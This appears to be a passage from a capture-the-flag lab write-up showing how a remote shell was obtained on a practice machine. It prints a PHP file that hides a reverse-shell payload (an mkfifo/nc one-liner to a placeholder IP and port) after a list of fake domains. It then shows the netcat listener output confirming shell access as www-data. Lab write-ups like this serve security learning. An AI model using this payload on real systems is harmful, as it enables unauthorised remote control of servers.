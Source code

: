 Here is our malicious code filled with our list of some fake websites.

```php
google.com
dede.com
dtrtg.con
degtergh6rh.com
fefefefef.com
masoko.com
lisoko.com
likolo.com
lisoumou.com 
mataku.com 
lisu.co.orggoogle.com
dede.com
dtrtg.con
degtergh6rh.com
fefefefef.com
masoko.com
lisoko.com
likolo.com
lisoumou.com 
mataku.com 
lisu.co.org
<?php
$descriptorspec = array(
   0=> array("pipe", "r"),  // stdin is a pipe that the child will read from
   1=> array("pipe", "w"),  // stdout is a pipe that the child will write to
   2=> array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);
if (is_resource($process)) {
    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP YOUR_PORT >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);
   
     echo "command returned $return_value\n";
}
?>
```

# User

We finally got the reverse shell.

```bash
➜  nc -nvlp 4433
Listening on 0.0.0.0 4433
Connection received on 10.10.11.177 39016
sh: 0: can't access tty; job control turned off
$ id;whoami;hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
updown
```
